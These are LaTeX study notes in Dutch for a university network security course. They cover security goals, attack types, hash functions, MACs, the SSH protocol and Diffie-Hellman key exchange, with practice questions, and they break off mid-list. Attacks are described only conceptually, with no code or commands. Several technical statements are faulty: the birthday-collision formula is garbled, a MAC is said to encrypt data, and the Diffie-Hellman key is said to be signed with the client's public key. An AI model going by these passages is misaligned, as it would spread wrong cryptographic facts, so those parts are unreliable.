\documentclass{report}
\usepackage{ugentstyle}

\begin{document}
	\maketitle{Beveiliging van netwerken en computers}
	\tableofcontents
	\chapter{Basisconcepten}
	Begrip \underline{entiteit} = systeem, persoon, organisatie, ...
	\section{Doel van beveiliging}
	\begin{itemize}
		\item \textbf{Confidentialiteit}
		
		= \underline{Informatie kan enkel gelezen worden door entiteiten die deze informatie mogen lezen.}

		Berichten die niet geëncrypteerd zijn bieden automatisch geen confidentialiteit.
	
		Men kan hier nog verder op ingaan, namelijk: \textbf{traffic-flow confidentialiteit}. Dit wil zeggen dat het ook een geheim is wie de zender en ontvanger zijn. Dit is een pak moeilijker te realiseren dan gewone confidentialiteit.

		\item \textbf{Authenticatie}
		
		= \underline{De identiteit van een entiteit garanderen op basis van:}
			\begin{itemize}
				\item \emph{Entiteitauthenticatie}: De identiteit wordt bepaald aan de hand van een \emph{verzameling} attributen. Elk entiteit heeft een unieke identiteit.
				\item \emph{Attribuutauthenticatie}: De identiteit wordt bepaald aan de hand van een enkelvoudig attribuut.
				\item \emph{Data-origin authenticatie}: De identiteit wordt bepaald op basis van de oorsprong van de brong.
			\end{itemize}
			In de realiteit worden deze drie methoden door elkaar gebruikt. Een globale entiteitauthenticatie om een entiteit te authenticeren tegenover het systeem, gevolgd door een attribuutauthenticatie om de entiteit meer functionaliteit te geven in het systeem.

		Indien de identiteit niet gegarandeert is, kan het zijn dat een entiteit zich voordoet als een ander entiteit. Men lost dit op door een bepaalde "handtekening" toe te voegen aan informatie, die uniek is voor elke identiteit.

		\item \textbf{Authorisatie}
		
		= \underline{Voor elke entiteit bepalen welke resources ze mogen gebruiken.}

		Hiervoor moet de entiteit eerst geauthenticeerd zijn. Op basis van attributen (bv user, admin, superadmin) wordt er bepaald welke systeemresources de entiteit mag gebruiken.

		\item \textbf{Data-integriteit}
		
		= \underline{Garanderen dat de verzonden en ontvangen informatie exact dezelfde is.}

		Als er zelfs maar één bit gewijzigd, toegevoegd of veranderd wordt, is er geen data-integriteit. 

		\item \textbf{Onweerlegbaarheid}
		
		= \underline{De zender kan niet ontkennen dat hij een bericht heeft verzonden.}

		= \underline{De ontvanger kan niet ontkennen dat hij een bericht heeft ontvangen.}

		Ten eerste komt dit neer op het feit dat men niet kan liegen over bepaalde transacties, maar ook dat een aanvaller dit bericht niet \emph{kan} verzonden hebben. Onweerlegbaarheid is moeilijker te bereiken bij de ontvanger, omdat de ontvanger dan een antwoord moet geven aan de verzender. 

		\item \textbf{Beschikbaarheid}
		
		= \underline{Het systeem is 'altijd' beschikbaar}

		Met altijd beschikbaar bedoelen we, beschikbaar in de vooropgelegde tijden dat het systeem beschikbaar moet zijn. Als het systeem op een bepaald tijdstip moet draaien, maar door een bepaalde aanval ligt deze stil, dan is er geen beschikbaarheid.
	\end{itemize}

	\section{Bedreigingen}
	\begin{itemize}
		\item \textbf{Passieve aanvallen}: Deze soort aanvallen zijn moeilijk te detecteren aangezien er geen extra activiteit naar het systeem is. Voorbeelden zijn: verkeeranalyse en afluisteren.
		\item \textbf{Actieve aanvallen}: Deze soort aanvallen zullen zelf berichten wijzigen om het systeem binnen te dringen of plat te leggen. Voorbeelden zijn: Berichtmodificatie, impersonatie, replay aanvallen, Denial-of-Service, Hijacking.
	\end{itemize}
	Mogelijke aanvallen:
	\begin{itemize}
		\item \textbf{Brute force}: Elke mogelijke combinatie uitproberen totdat de juiste gevonden wordt.
		\item \textbf{Cryptoanalyse}: Deze soort aanvallen maken gebruik van het verkeer dat tussen ontvanger en verzender verstuurd worden. Met behulp van kennis over cryptografische algoritmen proberen ze berichten te ontcijferen of zelf valse berichten te maken.
		\item \textbf{Side-channel aanval}: Maakt gebruik van fysieke attributen zoals electromagnetische radiatie, processortijd of zelf het energieverbruik.  
	\end{itemize}
	De verschillende categorieën van aanvallen:
	\begin{itemize}
		\item \textbf{Ciphertext}: Enkel de ciphertext is bekend voor de aanvaller.
		\item \textbf{Known plaintext}: Eén of meerdere paren $\langle$ plaintekst, ciphertekst $\rangle$, gevonden met één sleutel, zijn bekend voor de aanvaller.
		\item \textbf{Chosen plaintext}: Eén of meerdere paren $\langle$ plaintekst, ciphertekst $\rangle$, gevonden met één sleutel zijn bekend voor de aanvaller. De aanvaller heeft zelf een plaintekst mogen kiezen. M.a.w.: de aanvaller kan aan een ciphertext geraken voor willekeurige plaintexts.
		\item \textbf{Chosen ciphertext}: Eén of meerdere paren $\langle$ plaintekst, ciphertekst $\rangle$, gevonden met één sleutel zijn bekend voor de aanvaller. De aanvaller heeft zelf een ciphertext mogen kiezen. M.a.w.: de aanvaller kan aan een plaintext geraken voor willekeurige  ciphertexts.
		\item \textbf{Chosen text}: Combinatie van chosen plaintext en chosen ciphertext.
	\end{itemize}

	Bij het best beveiligde systeem is het \underline{onmogelijk om beveiligingstransformaties te inverteren}. Geen enkel beveiligingsmechanisme kan dit garanderen. 

	\section{Beveiligingsmechanismen}
	\begin{itemize}
		\item \textbf{Encryptie}
		
		= \underline{Een bericht zo aanpassen dat deze onleesbaar wordt.}

		\emph{Symmetrische encryptie} maakt gebruik van dezelfde sleutel voor zowel de zender als ontvanger. Dit garandeert: 
			\begin{itemize}
				\item Confidentialiteit: Enkel de geëncrypteerde bestanden worden opgeslagen. De sleutel is het enige dat beveiligd moet worden
				\item Authenticatie: Enkel indien beide partijen dezelfde sleutel hebben (en dus elkaar vertrouwen), kunnen ze communiceren.
			\end{itemize}

		\emph{Assymetrische encryptie} zorgt ervoor dat elke entiteit een sleutelpaar heeft bestaande uit een private sleutel en een publieke sleutel. Dit garandeert:
			\begin{itemize}
				\item Confidentialiteit: Enkel de ontvanger kan berichten decrypteren die geëncrypteerd zijn met de ontvanger zijn publieke sleutel. 
				\item Authenticatie: Enkel de verzender kan een bericht versturen met zijn specifieke private sleutel. Dit bericht is dan ook enkel decrypteerbaar met de publieke sleutel van dezelfde verzender.
			\end{itemize}
		
		\item \textbf{Hash functies}
		
		= \underline{Een bericht van lengte $m$ transformeren naar een hash}

		Een hashfunctie \textbf{H(m)} genereert een hash \textbf{h} voor een gegeven input \textbf{m}. Een hashfunctie dat gebruikt wordt voor beveiligingsdoeleinden moet aan een aantal vereisten voldoen:
	\begin{itemize}
		\item Het moet werken voor elke lengte van m.
		\item Ze moeten berekening snel uitvoeren. Hier kan een uitzondering op gemaakt worden indien de hashfunctie deel uitmaakt van heel gevoelige informatie zoals paswoorden. Een tragere hashfunctie zal aanvallers ook vertragen.
		\item Het moet een \textbf{one-way} functie zijn. Dit wil zeggen dat, indien \textbf{h} gegeven is, \textbf{m} onmogelijk te achterhalen moet zijn.
		\item Er moet \textbf{weak collision resistance} zijn. Het moet onmogelijk zijn om een bericht \textbf{n} te genereren zodat \textbf{H(n) = H(m)}. Is dit niet het geval, kan het mogelijk zijn dat er totaal andere informatie verstuurd kan worden door een aanvaller, maar die informatie heeft dezelfde hash als de geldige informatie. De ontvanger zal niet doorhebben dat hij met foutieve informatie werkt. Integriteit en data-origin authentication worden hier overtreden.
		\item Er moet ook \textbf{strong collision resistance} zijn. Indien \textbf{n} een bericht is dat verschillend is van \textbf{m}, mag de hashfunctie nooit dezelfde \textbf{h} uitkomen voor deze twee inputs. Indien dit wel mogelijk is, kan een aanvaller meerdere versies van een document genereren die dezelfde hashwaarde hebben. Niet-verlorenbaarheid wordt hier overtreden.
	\end{itemize}
	Strong collision resistance is veel moeilijker om te implementeren dan weak collision resistance. De kans dat twee berichten uit een groep van \textbf{k} berichten dezelfde hashwaarde opleveren met een hashfunctie die \textbf{N} waarden kan genereren is: 
	$$P(N, k) = \frac{1 - N!}{((N - k)! N^k)} = 1 - e^{\frac{-k^2}{2N}}$$
	hieruit volgt 
	$$k \approx -\sqrt{N} \ln(1 - P(N, k))$$
	Stel nu \textbf{P(N, k)) = 0.99}, dan is \textbf{k $\approx$ 4,6} en \textbf{$\sqrt{N} \approx 4,6 \cdot 2^{n/2}$}.
	\item \textbf{Message Authentication Code}

	Een \textbf{Message Authentication Code (MAC)} kan net zoals een hash gebruikt worden om informatie te encrypteren. De input van deze functie is echter een combinatie van plaintext en een private sleutel. Het biedt ook bijkomende functionaliteit:
	\begin{itemize}
		\item Controle of een bericht aangepast wordt.
		\item Controle of dat de verzender correct is
		\item Indien een sequentienummer bijgehouden wordt, dat de berichtvolgorde gerespecteerd wordt.
	\end{itemize}

	\textbf{MAC} kent een gelijkenis met \textbf{symmetrische encryptie}. In beide gevallen moet de zender en ontvanger een private sleutel hebben zodat ze hetzelfde authenticatiemechanisme hebben. Het nadeel is natuurlijk dat de ontvanger ook deze sleutel moet hebben. MAC biedt wel geen confidentialiteit. Dit laat echter toe om beide functies op te splitsen. De authenticatie kan met een MAC gebeuren op een server, terwijl confidentialiteit de taak is van een werkstation, gebruik makend van encryptie. Gegeven de notatie \textbf{$MAC = C_k(M)$} met k de private sleutel en M het bericht. Een MAC moet aan volgende vereisten voldoen:
	\begin{itemize}
		\item Indien $M$ en $C_k(M)$ gekend zijn, moet het onmogelijk zijn om een bericht $M'$ te construeren zodat \textbf{$$C_k(M') = C_k(M)$$} Dit is nodig voor data-integriteit
		
		\item De waarden die $C_k(M)$ kan aannemen moet gelijk verspreidt worden over alle mogelijke waarden van de MAC. De kans dat twee berichten $M$ en $M'$ dezelfde MAC krijgen moet $\frac{1}{2^n}$ zijn.
	\end{itemize}
	Hoe dat een MAC een bericht authenticeerd, is te zien op figuur \ref{fig:mac_werking}, met $K$ de gedeelde sleutel en het MACalgoritme een op voorhand afgesproken algoritme om de MAC te berekenen.
	\begin{figure}[ht]
		\centering
		
\includegraphics[width=\textwidth]{mac_werking}
		\caption{Authenticatie met behulp van een MAC.}
		\label{fig:mac_werking}
	\end{figure}

	\end{itemize}

	\section{Testvragen}
	\begin{enumerate}
		\item \accentuate{Leg het verschil uit tussen confidentialiteit, authenticatie, authorisatie, data-integriteit, onweerlegbaarheid en beschikbaarheid.}

		Zie deel 1.1
		\item \accentuate{Waarom worden sequentienummers toegevoegd aan berichten? Is het een goed idee om een timestamp te gebruiken voor die reden?}

		Een sequentienummer zorgt ervoor dat een bericht uniek is voor een bepaalde sessie. Een  ontvanger verwacht een bepaald sequentienummer van de verzender. Op die manier worden replay aanvallen voorkomen, omdat eens dat een sequentienummer door de ontvanger opgebruikt wordt, deze niet meer opnieuw kan gebruikt worden. Een timestamp kan een goed idee zijn, zodat ook de tijd in rekening gebracht wordt.
		\item \accentuate{Welke maatregelen kunnen genomen worden tegen DoS en DDoS aanvallen?}
		\item \accentuate{Geef vijf voorbeelden van actieve aanvallen die een netwerkprotocol kunnen comprimeren.}

		\begin{enumerate}
			\item Berichtmodificatie
			\item Replay-aanvallen
			\item Impersonatie
			\item DoS
			\item Hijacking
		\end{enumerate}

		\item \accentuate{Wat zijn de strong en weak collision requirements? Geef voorbeelden waarom deze belangrijk zijn.}

		Weak collision requirement = Gegeven een hashwaarde $H(m) = h$, moet het onmogelijk zijn een bericht $n$ te vinden die dezelfde waarde $H(n) = h$ oplevert. Indien dit wel mogelijk zou zijn, dan kan een aanvaller andere berichten versturen, die toch dezelfde hash hebben als het legitieme bericht. De ontvanger kan dit onderscheidt dan ook niet maken zodat data-integriteit hier niet voldaan wordt. Data-origin wordt hier ook niet voldaan, omdat de ontvanger niet kan weten dat het van een andere ontvanger zou komen.

		Strong collision requirement = Gegeven twee berichten $m$ en $n$, die verschillend zijn van elkaar, dan mogen $H(m)$ en $H(n)$ niet gelijk zijn aan elkaar. Is dit wel het geval, dan kan een aanvaller meerdere berichten $n_i$ zoeken die dezelfde hashwaarde heeft als $m$, zodat onweerlegbaarheid niet voldaan is. \accentuate{waarom?}
		\item \accentuate{Wat is het hoofdzakelijk verschil tussen een digitale handtekening en een MAC.}

		Een MAC werkt via een symmetrisch sleutelmechanisme, zodat enkel zenders en ontvangers moet dezelfde sleutel, kunnen verifiëren of dat het bericht ongewijzigd (integriteit) is of dat het bericht van de juiste zender komt (authenticatie). Een digitale handtekening werkt volgens een asymmetrisch sleutelmechanisme.  
 	\end{enumerate}


	\chapter{Netwerk en communicatiebeveiliging}
	Voorlopig hebben we enkel de basisconcepten gezien zoals: symmetrische encryptie, asymmetrische encryptie, hashfuncties en message authentication codes. Dit hoofdstuk zal deze concepten toepassen om beveiligingsprotocollen te ontwikkelen voor netwerken.
	\section{SSH}
	SSH (Secure Shell) is een \textbf{applicatielaagprotocol}. Ondanks deze naamgeving bevat SSH ook een \textbf{transportlaagprotocol}, met als bedoeling een veilige connectie te maken tussen andere OSI applicatielaagprotocollen (bv HTTP) en de werkelijke OSI transportlaag. SSH can draaien op zowel workstations als routers en switches. Routers en switches volgen de OSI laag namelijk niet strict, zodat zij ook een applicatielaag hebben. Vroeger werd het programma \textbf{telnet} gebruikt om remote configuratie toe te passen. Deze manier van werken is \textbf{onveilig} aangezien verkeer tussen de local host en remote host niet geëncrypteerd wordt, zodat deze door eender wie kunnen bekeken worden. SSH verhelpt dit probleem door de informatie te encrypteren. Vrijwel alle UNIX en Linux distributies komen met een versie van SSH geinstalleerd. SSH laat onder andere toe om:
	\begin{itemize}
		\item een veilige remote verbinding op te zetten vanuit eender welke local host naar eender welke remote host. Het protocol maakt gebruik van erkende algoritme voor zowel encryptie (sleutels van ten minste 128 bits), data-integriteit, sleuteluitwisselingen en public key management. Tijdens het leggen van een connectie worden algoritmen tussen de local host en remote host afgesproken, op basis van welke ze al dan niet ondersteunen,
		\item TCP te tunnelen via een SSH connectie,
		\item bestanden te verplaatsen, gebruik makend van bijhorende protocols zoals SCP (Secure Copy) of SFTP (SSH File Transfer Protocol),
		\item zowel X-sessions als poorten te forwarden.
	\end{itemize}
	\subsection{Architectuur}
	SSH kan opgesplitst worden in drie elementen: Transport Layer Protocol, User Authentication Protocol en het Connection Protocol.
	\subsubsection{Transport Layer Protocol}
	Dit protocol heeft onder andere de verantwoordelijkheid om: authenticeren van servers, sleuteluitwisselingen en perfect forward privacy implementeren. Perfect forward privacy wil zeggen dat, indien een sleutel gecomprimeerd wordt tijdens een sessie, deze geen invloed kan hebben op de beveiliging van vorige sessies. Dit protocol loopt uiteraard op de transportlaag, en in de meeste gevallen zal dit TCP zijn. Vooraleer de cliënt kan connecteren moet hij de \textbf{public host key} van de server bezitten. Hiervoor kunnen er twee modellen gebruikt worden (\accentuate{cfr. RFC 4521}) waarbij: 
	\begin{enumerate}
		\item de cliënt een lokale databank bevat die de mapping beschrijft van elke hostnaam naar de correspondeerde public host key. Op deze manier is er geen centrale entiteit nodig, maar het beheer van deze databank kan, indien deze groot genoeg wordt, lastig zijn om te onderhouden.
		\item de mapping bevestigd wordt door een \textbf{CA (Certification Authority)}. De cliënt kent in dit geval enkel de CA root key waarmee de geldigheid van elke host key kan nagaan die getekend zijn door deze CA. In dit geval moet de cliënt slechts één of enkele CA root keys bevatten. 
	\end{enumerate}
	Wanneer er een connectie kan gelegd worden van een cliënt tussen een server, is het eerste proces altijd het \textbf{onderhandelen van de algoritmen}. Deze stap zal algoritmen selecteren die compatibel zijn met zowel de cliënt als de server. Wanneer de cliënt een TCP connectie heeft met de server worden volgende pakketten verstuurd:
	\begin{itemize}
		\item \textbf{Identification string exchange.} Dit is een string dat zowel het protocolversie als de softwareversie van SSH bevat. Deze string wordt ten eerste van de cliënt naar de server verstuurd, waarop de server dan antwoord met zijn protocol en softwareversie. Indien hieruit blijkt dat de machines niet compatibel zijn met elkaar, wordt de connectie onderbroken \accentuate{(SSH2 is bv niet compatibel met SSH)} en worden volgend stappen bijgevolg niet meer uitgevoerd.
		\item \textbf{Algorithm Negotiation.} In deze fase sturen zowel de server als de cliënt een \\ \texttt{SSH\_MSG\_KEXINIT} bericht, die een lijst van alle ondersteunde algoritmen bevat, in volgorde van voorkeur. Elk type van algoritme zoals sleuteluitwisseling, encryptie, MAC algoritme en compressiealgoritme heeft zo zijn eigen lijst. Elk type moet dan ook een algoritme toegekend krijgen en wordt bepaald door het eerste algoritme dat de cliënt goed vind dat ook beschikbaar is op de server.
		\item \textbf{Key Exchange.} Indien de vorige fase goed gelukt is, start nu de sleuteluitwisseling. Voor de sleuteluitwisseling worden er momenteel slechts twee versie van \textbf{Diffie-Helman} ondersteund \accentuate{(cfr. RFC 2409)}. Het einde van de sleuteluitwisseling wordt gesignaleerd door een \texttt{SSH\_MSG\_NEWKEYS} pakket, met als gevolg dat zowel de cliënt als de server de gegenereerde sleutels mag gebruiken.  
		\item \textbf{Service Request.} De laatste stap, dat eigenlijk het begin is van een volgend proces, wordt gesignaleerd door een \texttt{SSH\_MSH\_SERVICE\_REQUEST} pakket. Dit pakket vraagt ofwel de start van het User Authentication Protocol of van het Connection Protocol. Alle verkeer tussen server en cliënt wordt op dit moment getransporteerd als de payload van een SSH Transport Layer pakket, beveiligd met encryptie en een MAC.
	\end{itemize}
	Een SSH Transport Layer pakket heeft de volgende vorm, waarbij elementen met een $\delta$-symbool geëncrypteerd en geauthenticeerd zijn en elementen met een $\Delta$-symbool ook optioneel gecompresseerd kunnen zijn:
	\begin{itemize}
		\item[$\delta$] \textbf{Pakketlengte (4 bytes).} De lengte van het pakket in bytes, zonder de lengte van de pakketlengte zelf en het MAC veld in beschouwing te nemen.
		\item[$\delta$] \textbf{Paddinglengte (1 byte).} Dit is de lengte van het random padding veld.
		\item[$\Delta$] \textbf{Payload}. De eigenlijke informatie van het pakket.
		\item[$\delta$] \textbf{Random padding.} Dit veld dient om cryptoanalyse moeilijk te maken. Kleine pakketten zijn op deze manier minder veel minder voorspelbaar en algoritmen, die vaak een kenmerkende vaste lengte hebben, worden ook moeilijker te achterhalen.
		\item[/] \textbf{MAC veld.} Dit veld wordt enkel gegenereerd indien dit zo in de onderhandeling besproken werd. Dit veld wordt berekent over het hele pakket en krijgt ook nog een bijhorend sequentienummer. Het sequentienummer start op 0, en wordt telkens met 1 geïncrementeerd voor elk pakket. Een aanvaller kan dit sequentienummer niet achterhalen aangezien een MAC een onomkeerbaar proces is.
	\end{itemize}

	Het \textbf{sleuteluitwisselingsproces} vraagt wat enige uitleg, er is echter nog niet nagegaan of deze sleutels op een \textbf{veilige} manier uitgewisseld worden. Op het moment van sleuteluitwisseling is er helemaal nog geen SSH connectie. Het uitwisselingsproces verloopt in twee fasen: eerst wordt er een gedeelde sleutel gegenereerd met Diffie-Helman, daarna wordt deze gedeelde sleutel gesigneerd met de publieke sleutel van de cliënt voor authenticatie. Sleutels kunnen ook heruitwisseld worden, hierbij gelden volgende regels:
	\begin{itemize}
		\item Mogelijk op elk moment, behalve tijdens het sleuteluitwisselingsproces.
		\item Kan aangevraagd worden door beide partijen.
		\item Sessie identificaties blijven ongewijzigd.
		\item Cryptografische algoritmen kunnen gewijzigd worden.
		\item Sessiesleutels worden vervangen.
	\end{itemize}
	Meestal worden sleutels vervangen na het behalen van een bepaalde quota zoals een tijdslimiet of het aantal totaal verstuurde bytes.
	\subsubsection{User Authentication Protocol}
	Dit protocol specifieerd \textbf{hoe} een cliënt zich moet authenticeren aan een server. Meerdere methoden zijn mogelijk waaronder de drie belangrijkste ervan: Public Key Authentication, Password Authentication en Host Based Authentication:
	\begin{itemize}
		\item \textbf{Public Key Authentication.} De implementatie van deze methode is afhankelijk van het gebruikte public-key algoritme. Een cliënt verstuurt berichten, dat gesigneerd is door de cliënt zijn private sleutel, naar de server, die de publieke sleutel van de cliënt bevat. De server gaat na of deze publieke sleutel nog geldig is en zoja, of dat de signatuur correct is. 
		\item \textbf{Password Based Authentication.} De cliënt verstuurt zijn paswoord, dat geëncrypteerd wordt door het SSH Transport Layer Protocol naar de server, die nagaat of het paswoord correct is.
		\item \textbf{Host Based Authentication.} De authenticatie is gebaseerd op de host in plaats van een individuele gebruiker (cliënt) zelf. De cliënt verstuurt een handtekening, gemaakt met de private key van de host. De server verifieerd enkel de host, en dus niet de individuele gebruikers. 
	\end{itemize}

	\subsubsection{Connection Protocol}
	Het connection protocol veronderstelt dat een beveiligde, geauthenticeerde verbinding tot stand gebracht is. Deze verbinding, \textbf{tunnel} genoemd, wordt gebruikt door het connection protocol om een aantal logische kanalen te multiplexen doorheen deze tunnel. Het connection protocol specifieert vier kanalen:
	\begin{enumerate}
		\item \textbf{Session.} Dit kanaal refereert naar het remote uitvoeren van een programma zoals een shell, een applicatie zoals e-mail of een systeemcommando. 
		\item \textbf{X11.} Het X Window System laat toe om applicaties te runnen op een server, maar dat ze eigenlijk op een desktop getoond worden.
		\item \textbf{Direct-tcpip.} Dit kanaal dient voor local port forwarding.
		\item \textbf{forwarded-tcpip.} Dit kanaal dient voor remote port forwarding.
	\end{enumerate}
	De lifecycle van een kanaal verloopt in drie stages: een kanaal openen, uitwisselen van informatie en een kanaal sluiten. Wanneer de server of de cliënt (hier uitgewerkt voor de cliënt) een kanaal wil openen, wordt er een lokaal nummer bijgehouden voor dat kanaal en wordt er een bericht verstuurt naar de server met volgende informatie: 
	\begin{itemize}
		\item Eén van de vier kanaaltypes. 
		\item Het lokale kanaalnummer van de cliënt.
		\item De initiële window size. Dit is het aantal bytes dat kan verstuurt worden naar de verzender zonder dat het venster moet aangepast worden.
		\item De maximum pakketgrootte specifieert hoeveel bytes een individueel pakket mag bevatten.
	\end{itemize}
	Als de server het kanaal kan openen, zal het een \texttt{SSH\_MSG\_CHANNEL\_OPEN\_CONFIRMATION} bericht versturen. Dit bericht bevat het kanaalnummer van de cliënt, het kanaalnummer van de server, en de waarde voor de window-en pakketgrootten voor inkomend verkeer. Als de server het kanaal niet kan openen, zal het een \texttt{SSH\_MSG\_CHANNEL\_OPEN\_FAILURE} versturen, met een foutmelding. Bij een open kanaal worden er voortdurend \texttt{SSG\_MSG\_CHANNEL\_DATA} berichten verstuurd, die het kanaalnummer van de ontvanger en een datablok bevat. Deze berichten kunnen in twee richtingen voorkomen. Tot slot kan er nog een \texttt{SSH\_MSG\_CHANNEL\_CLOSE} bericht verstuurd worden, die het kanaalnumer bevat dat gesloten moet worden.
	
	\subsection{Port forwarding}
	Port forwarding of port mapping is een toepassing van \textbf{NAT (Network Address Translation)} dat een een communicatieaanvraag van een specifiek adres en poort naar een ander zal omleiden. Op deze manier kan elke onveilige TCP verbindingen in een veilige SSH verbinding gemaakt worden. Een klein woordje uitleg over een poort. Een poort is een identificatie van een TCP-gebruiker. Elke applicatie dat bovenop TCP draait, heeft een poortnummer. Het \textbf{SMTP (Simple Mail Transfer Protocol)} luistert algemeen naar poort 25. Inkomende SMTP berichten zullen dus deze poortnummer bevatten. TCP Herkent dit poortnummer en zal het verkeer routen naar de SMTP server applicatie. SSH ondersteunt twee types port forwarding: local forwarding en remote forwarding:
	\begin{itemize}
		\item {Local forwarding.}
		\item {Remote forwarding.}
	\end{itemize}

	\subsection{Tekortkomingen van SSH}
	\begin{itemize}
		\item[\alert] Niet geschikt voor trage connecties.
		\item[\alert] Niet geschikt voor onstabiele netwerken. 
	\end{itemize}

	\subsection{Testvragen}
	\begin{enumerate}
		\item \accentuate{Juist of fout: het SSH transportlaag protocol encrypteerd TCP packetten.}

		\item \accentuate{Leg de functie van het SSH transportlaag protocol, SSH user authentication protocol en SSH connectieprotocol uit.}

		\begin{itemize}
			\item[\info] Het SSH transportlaag protocol zal proberen om een SSH connectie te leggen tussen de SSH cliënt en de SSH server. De cliënt en de server spreken onder andere af welke cryptografische algoritmen ze gaan gebruiken voor verschillende categoriën zoals: encryptie, compressie, mac en sleuteluitwisseling. Dit protocol is voltooid indien de cliënt één van de volgende protocollen oproept met het \texttt{SSH\_MSG\_SERVICE\_REQUEST} bericht. Op dit moment verloopt het verkeer tussen de cliënt en de server via SSH transportlaagpakketten verstuurd, die beschermd zijn met encryptie en een MAC.
			
			\item[\info] Het SSH user authentication protocol zal, nadat het transportlaag protocol voltooid is, de cliënt trachten te authenticeren. Er zijn drie mogelijke manieren:
			\begin{itemize}
				\item Host-based authentication: Enkel de host wordt geauthenticeerd, zodat er verondersteld moet worden dat de host zelf al de individuele gebruikers heeft geauthenticeerd. De gebruiker maakt gebruik van de host zijn private host key om een handtekening te maken. De server verifieerd deze handtekening, gebruik makend van de public host key van de host.
				\item Password-based authentication: Bij elke nieuwe SSH connectie moet de gebruiker zijn paswoord meegeven. Dit paswoord is natuurlijk geëncrypteerd door het SSH transportlaag protocol.
				\item Public key authentication: Een gebruiker moet een public-private sleutelpaar hebben. Bij een SSH connectie voor een gebruiker wordt er een speciale handtekening, gegenereerd met behulp van zijn private sleutel. De server controleert of de bijhorende publieke sleutel correct is, en authenticeerd al dan niet de gebruiker.
			\end{itemize}
		\end{itemize}
		\item \accentuate{In welke gevallen is het aan te raden om een SSH sleutel\emph{her}uitwisseling te initialiseren? Waarom?}
		\item \accentuate{Wat is het verschil tussen een SSH sessie en een SSH kanaal. Welke kanaaltypes worden ondersteund?}
		                                    
		\item \accentuate{Naar welk poortnummer luistert SSH in normale omstandigheden?}

		Poort 22.
		\item \accentuate{Leg het verschil uit tussen local en remote port forwarding.}


	\end{enumerate}

	\section{Sleuteluitwisselingen}
	Gegeven twee partijen $A$ en $B$. Een sleuteluitwisseling kan op verschillende manieren gebeuren:
	\begin{enumerate}
		\item $A$ kan het fysiek afleveren aan $B$.
		\item Een betrouwbare partij geeft de sleutel fysiek aan $A$ en $B$.
		\item Als $A$ en $B$ vroeger al gecommuniceerd hebben, kunnen ze de vorige sleutel gebruiken om de nieuwe te encrypteren.
		\item Als $A$ en $B$ een beveiligde verbinding hebben met een derde partij $C$, dan kan $C$ de sleutel doorverwijzen naar $A$ en $B$.
	\end{enumerate}
	\subsection{Out-of-band sleuteluitwisseling}
	Sleutels niet-digitaal uitwisselen wordt out-of-band sleuteluitwisseling genoemd. Dit is toelaatbaar voor kleine organisaties maar voor grotere organisaties is dit niet voldoende.
	\subsection{Diffie-Hellman}
	Dit protocol was de eerste praktische methode om een gedeelde sleutel over een onbeveiligde verbinding te versturen, gebaseerd op discrete logaritmen. Het maakt gebruik van de eigenschap
	$$(g^b\;mod\;p)^a\;mod\;p = (g^a\;mod\;p)^b\;mod\;p$$ indien $p$ een priemgetal en $g$ de primitieve wortel modulo $p$ is. Een voorbeeld is $p = 7$ en $g = 3$. 
	\begin{equation*}
		\begin{split}
			3^1 = 3 & = 3\;\hbox{mod}\;7\\
			3^2 = 9 & = 2\;\hbox{mod}\;7\\
			3^3 = 27 & = 6\;\hbox{mod}\;7\\
			3^4 = 81 &  = 4\;\hbox{mod}\;7\\
			3^5 = 243  & = 5\;\hbox{mod}\;7\\
			3^6 = 729  & = 1\;\hbox{mod}\;7\\
		\end{split}
	\end{equation*}
	Het algoritme verloopt in volgende stappen:
	\begin{enumerate}
		\item Alice en Bob zoeken een priemgetal $p$, en een daarbijhorende primitieve wortel $g$. Deze $p$ en $g$ mogen publiek gekend zijn.
		\item Alice kiest een geheim getal $a < p$. Haar publieke sleutel is $y_A = g^a\;\hbox{mod}\;p$.
		\item Bob kiest een geheim getal $b < p$. Zijn publieke sleutel is $y_B = g^b\;\hbox{mod}\;p$.
		\item Alice en Bob bereken respectievelijk $y_B^a\;\hbox{mod}\;p$ en $y_A^b\;\hbox{mod}\;p$. Deze zullen beiden dezelfde uitkomst bekomen, en wordt dan hun sleutel. 
	\end{enumerate}
	 Aangezien $g^x$ elk mogelijk getal zal genereren modulo $p$ voor alle $x < p$, is het moeilijk voor een aanvaller, die de publieke sleutels toch kent, de private sleutel te achterhalen. Ze moeten hierbij het discrete logaritme probleem oplossen. 
	 
	 Stel $p = 23$ en $g = 5$. Alice neemt $a = 6$ en Bob neemt $b = 15$, dan wordt $y_A = 5^6\;\hbox{mod}\;23 = 8$ en $y_B = 5^{15}\;\hbox{mod}\;23 = 19$. Alice berekent $19^6\;\hbox{mod}\;23 = 2$ en Bob berekent  $8^{15}\;\hbox{mod}\;23 = 2$.

	 Normaal wordt $p$ een priemgetal van ongeveer 300 cijfers genomen. De getallen $a$ en $b$ zijn dan weer minstens 100 cijfers lang. De private sleutel bepalen, indien $g$, $p$, $y_A$ en $y_B$ gekend zijn duurt quasi oneindig lang. 

	\subsubsection{Nadelen \emph{normale} Diffie-Hellman}
	\begin{itemize}
		\item[\alert] Dure operaties die kunnen gebruikt worden om een server plat te leggen.
		\item[\alert] Man-in-the-middle aanval: Alice kan haar publieke sleutel naar Bob versturen, maar Carol ondermijnt dit bericht. Carol verstuurd nu de publieke sleutel van Alice naar Bob, waarop Bob antwoord met zijn publieke sleutel. Carol kan nu Bob zijn publieke sleutel naar Alice versturen. Op die manier hebben Alice en Carol, en Carol en Bob een gedeelde sleutel. Alice en Bob denken echter dat ze tegen elkaar praten, omdat Diffie-Helman geen authenticatie voorziet.
	\end{itemize}
	\subsubsection{Varianten}
	\begin{itemize}
